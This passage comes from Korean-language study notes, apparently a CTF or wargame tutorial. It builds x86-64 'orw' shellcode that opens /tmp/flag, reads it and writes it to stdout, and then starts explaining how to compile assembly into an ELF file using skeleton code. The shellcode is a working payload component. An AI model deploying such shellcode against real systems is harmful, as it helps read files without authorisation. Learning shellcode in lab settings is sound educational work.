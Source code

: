 
이를 모두 종합하면 아래와 같음
```
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp ; rdi = "/tmp/flag"
xor rsi, rsi ; rsi = 0 ; RD_ONLY
xor rdx, rdx ; rdx = 0
mov rax, 2 ; rax = 2 ; syscall_open
syscall ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax ; rdi = fd
mov rsi, rsp
sub rsi, 0x30 ; rsi = rsp-0x30 ; buf
mov rdx, 0x30 ; rdx = 0x30 ; len
mov rax, 0x0 ; rax = 0 ; syscall_read
syscall ; read(fd, buf, 0x30)

mov rdi, 1 ; rdi = 1 ; fd = stdout
mov rax, 0x1 ; rax = 1 ; syscall_write
syscall ; write(fd, buf, 0x30)
```

```
push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall

mov rdi, 1
mov rax, 0x1
syscall
```

지금 작성한 어셈블리 코드는 기계어로 치환하여 컴파일러가 읽을 수 있으나, ELF 형식이 아니므로 리눅스에서 실행 불가
이를 gcc컴파일을 통해 ELF 형식으로 변형해야 함

많은 방법 중 하나인 스켈레톤 코드를 사용
## 스켈레톤 코드
어셈블리 코드를 컴파일하는 방법에는 여러 가지 방법 중 하나
핵심 내용이 비어있는, 기본 구조만 갖춘 코드
